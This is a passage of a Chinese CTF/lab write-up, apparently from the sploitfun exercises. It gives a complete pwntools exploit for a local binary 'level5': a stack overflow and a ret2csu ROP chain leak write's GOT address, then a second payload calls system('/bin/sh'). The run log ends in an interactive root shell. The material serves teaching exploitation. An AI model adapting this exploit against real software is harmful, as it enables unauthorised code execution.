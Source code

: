 再次payload,调用system(sh)
```
payload='a'*0x88+p64(0x0000000000400633)+p64(bin_sh)+p64(system)
```
最终exp
```
#!python
#!/usr/bin/env python
from pwn import *

p = process('./level5')
elf = ELF('./level5')
#p = remote('127.0.0.1',10001)
pop_6 = 0x000000000040062a
mov_3 = 0x0000000000400610
elf.address=0x0000000000400000
main = 0x000000000040059d

payload = 'a'*(0x80+0x08)+p64(pop_6)
payload += p64(0)+p64(1)+p64(elf.got['write'])+p64(8)+p64(elf.got['write'])+p64(1)
payload += p64(mov_3)+ 'a'*(8*7)+p64(main)
#pwnlib.gdb.attach(p)
p.recvuntil("World\n")
p.sendline(payload)
write=u64(p.recv(8).ljust(8,'\x00'))
#write = 0x7ffff7afc9a0
print hex(write)

system=0x7ffff7a50270
bin_sh=0x7ffff7b94cc9

payload='a'*0x88+p64(0x0000000000400633)+p64(bin_sh)+p64(system)
p.recvuntil("World\n")
p.sendline(payload)
p.interactive()

```
最终结果
```
python exp.py 
[+] Starting local process './level5': pid 29019
[*] '/root/sploitfun/64/64/level5'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
0x7ffff7afc9a0
[*] Switching to interactive mode
$ id
uid=0(root) gid=0(root) 组=0(root)
```
